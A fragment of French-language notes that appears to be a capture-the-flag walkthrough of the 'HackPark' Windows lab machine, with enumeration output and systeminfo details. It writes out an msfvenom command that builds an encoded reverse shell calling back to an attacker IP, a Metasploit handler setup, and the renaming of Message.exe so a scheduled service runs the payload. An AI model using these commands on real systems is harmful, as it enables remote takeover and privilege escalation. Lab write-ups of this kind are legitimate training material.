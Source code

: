 _-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AppCmd <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
C:\Windows\system32\inetsrv\appcmd.exe exists. 


WindowsScheduler.exe


https://www.exploit-db.com/exploits/45072





On utilise `msfvenom` pour créer un nouveau reverse shell (9003)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.28.128 LPORT=9003 -e x86/shikata_ga_nai -f exe -o wservice.exe
```

upload du nouveau shell : OK

Préparation du reverse shell : 


```msf5
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.28.128
set LPORT 9003
run
```

ren Message.exe Message.bak
ren mp9003.exe Message.exe


03/25/2018  10:58 AM           536,992 Message.exe
05/03/2020  01:25 PM            73,802 mp9003.exe



## 

```
c:\windows\system32\inetsrv>systeminfo

Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          6/21/2020, 10:19:48 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 3,175 MB
Virtual Memory: Max Size:  5,504 MB
```